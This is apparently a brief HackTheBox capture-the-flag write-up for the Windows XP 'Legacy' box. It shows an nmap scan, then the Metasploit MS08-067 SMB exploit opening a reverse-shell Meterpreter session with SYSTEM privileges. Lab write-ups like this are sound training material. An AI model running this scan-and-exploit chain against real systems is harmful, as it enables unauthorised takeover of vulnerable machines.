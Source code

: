 ```yaml
---
title: Legacy writeup
date: 2022-06-22 20:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["Easy-box", "windows", "metasploit"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/legacy
image: # Thumbnail 
  src: Legacy.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```

## Summary 
This was a very easy box that only required some basic google skills aswell as some knowledge of metasploit. let's take a look.

## Foothold & Privesc
Let's start out by doing an nmap port scan. 
```console
┌──(bitis㉿workstation)-[~/htb/Machines/Legacy]
└─$ nmap -sC -sV 10.129.227.181
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 00:39 CEST
Nmap scan report for 10.129.227.181
Host is up (0.099s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 4d22h27m49s, deviation: 2h07m16s, median: 4d20h57m49s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:96:d1:40 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-06-28T01:37:03+03:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.75 seconds
```
The nmap scan reveals that the machine is running Windows XP as its' OS. Ports 139 and 445 are also open, which are used for SMB. Searching for related vulnerabilities points us towards the metasploit module found described [here](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/). let's try to use it.
```console
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.17.182:4444 
[*] 10.129.227.181:445 - Automatically detecting the target...
[*] 10.129.227.181:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.227.181:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.227.181:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175686 bytes) to 10.129.227.181
[*] Meterpreter session 1 opened (10.10.17.182:4444 -> 10.129.227.181:1032) at 2022-06-23 01:03:26 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
Rooted!